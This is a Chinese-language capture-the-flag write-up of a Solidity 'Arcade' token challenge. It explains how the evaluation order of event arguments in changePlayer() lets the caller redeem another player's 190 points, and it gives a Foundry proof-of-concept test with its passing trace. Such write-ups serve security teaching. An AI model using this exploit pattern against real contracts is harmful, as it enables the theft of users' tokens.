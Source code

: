 ## Arcade

这道 CTF 挑战的目标是获取超过 200 个 Arcade 代币。要获取代币，参与者需要调用 `earn()` 函数积累积分，然后调用 `redeem()` 函数将这些积分转换为代币。

### 一、合约分析

#### 核心功能：
1. 积分获取：通过 `earn()` 函数，玩家可以获取 10 分，但这个函数有 10 分钟的调用频率限制。
    ```solidity
        function earn() external onlyPlayer {
            require(block.timestamp >= lastEarnTimestamp + 10 minutes, "Too frequent");
            address player = msg.sender;
            scoreboard[player] += 10;
            lastEarnTimestamp = block.timestamp;
            emit PlayerEarned(player, getCurrentPlayerPoints());
        }
    ```

2. 积分兑换代币：玩家通过调用 `redeem()` 函数，将积分按 1:1 比例兑换为 Arcade 代币。
   ```solidity
        function redeem() external onlyPlayer {
            _redeem(msg.sender);
        }
   ```

3. 玩家切换：当前玩家可以通过 `changePlayer()` 函数将玩家身份切换为其他玩家。
   ```solidity
        event PlayerChanged(address indexed oldPlayer, address indexed newPlayer);
        function changePlayer(address newPlayer) external onlyPlayer {
            address oldPlayer = currentPlayer;
            emit PlayerChanged(_redeem(oldPlayer), _setNewPlayer(newPlayer));
        }
   ```

4. 预设玩家积分：
   在 `setup()` 函数中，存在四个预设的玩家，他们被赋予了特定的初始积分：
   ``` solidity
        address public constant player1 = 0x1111Ad317502Ba53c84BD2D859237D33846Ca2e7;
        address public constant player2 = 0x2222140D9A0809B35D88636E3dDeC37B6bDd7CB2;
        address public constant player3 = 0x33339741B46D6EE8adCc0d796dE2aB6Ea3E8dc2A;
        address public constant player4 = 0x4444bd21FA6Ec8846308e926B86D06b74f63f4aD;

        arcade.setPoints(player1, 80);
        arcade.setPoints(player2, 120);
        arcade.setPoints(player3, 180);
        arcade.setPoints(player4, 190);
   ```

### 二、题解

在分析代码时，我们发现通过调用 `earn()` 获取足够的积分并不现实。由于每 10 分钟只能赚取 10 分，达到 200 个代币需要 10 次调用，这需要超过 1 小时的时间。而这种方式显然不符合快速解题的要求。

漏洞在 `changePlayer()` 函数里，在切换玩家的过程中，你以为代码会先调用 `_redeem()` 函数兑换当前玩家的积分，然后再调用 `_setNewPlayer()` 切换到新的玩家。然而，事件中索引参数是按照从右到左的顺序求值，而非索引参数则是从左到右求值。这意味着 `_setNewPlayer()` 先执行，而 `_redeem()` 后执行。因此，当我们调用 `changePlayer(player4)` 时，`currentPlayer` 会先被切换为 `player4`，而 `player4` 的积分（190 分）将被兑换给当前玩家。

通过对预设玩家积分的分析，`player4` 拥有 190 分，而通过一次 `earn()` 调用可以获取 10 分，因此可以利用 `changePlayer()` 函数将 `player4` 的 190 积分兑换给自己，最终达到 200 分的要求。

POC:  
```solidity
    function testExploit() public {
        vm.warp(10 minutes);
        vm.startPrank(you);
        arcade.earn(); // Earn 10 points
        arcade.redeem(); // Mint 10 PRIZE
        arcade.changePlayer(player4); // Mint 190 PRIZE
        arcadeBase.solve();
        assertTrue(arcadeBase.isSolved());
        vm.stopPrank();
    }
```

```
[PASS] testExploit() (gas: 133678)
Traces:
  [153578] ArcadeTest::testExploit()
    ├─ [0] VM::warp(600)
    │   └─ ← [Return] 
    ├─ [0] VM::startPrank(You: [0x5F82A812Fa0bF05D4336C8317833f5DCEFBfcCAE])
    │   └─ ← [Return] 
    ├─ [48615] Arcade::earn()
    │   ├─ emit PlayerEarned(player: You: [0x5F82A812Fa0bF05D4336C8317833f5DCEFBfcCAE], currentPoints: 10)
    │   └─ ← [Stop] 
    ├─ [47144] Arcade::redeem()
    │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: You: [0x5F82A812Fa0bF05D4336C8317833f5DCEFBfcCAE], value: 10)
    │   └─ ← [Stop] 
    ├─ [10245] Arcade::changePlayer(0x4444bd21FA6Ec8846308e926B86D06b74f63f4aD)
    │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: You: [0x5F82A812Fa0bF05D4336C8317833f5DCEFBfcCAE], value: 190)
    │   ├─ emit PlayerChanged(oldPlayer: You: [0x5F82A812Fa0bF05D4336C8317833f5DCEFBfcCAE], newPlayer: 0x4444bd21FA6Ec8846308e926B86D06b74f63f4aD)
    │   └─ ← [Stop] 
    ├─ [27568] ArcadeBase::solve()
    │   ├─ [673] Arcade::balanceOf(You: [0x5F82A812Fa0bF05D4336C8317833f5DCEFBfcCAE]) [staticcall]
    │   │   └─ ← [Return] 200
    │   └─ ← [Stop] 
    ├─ [375] ArcadeBase::isSolved() [staticcall]
    │   └─ ← [Return] true
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    └─ ← [Stop] 
```

相关链接：

[Underhanded Solidity Contest 2022 winning entry](https://github.com/ethereum/solidity-underhanded-contest/blob/master/2022/submissions_2022/submission9_TynanRichards/SPOILERS.md)

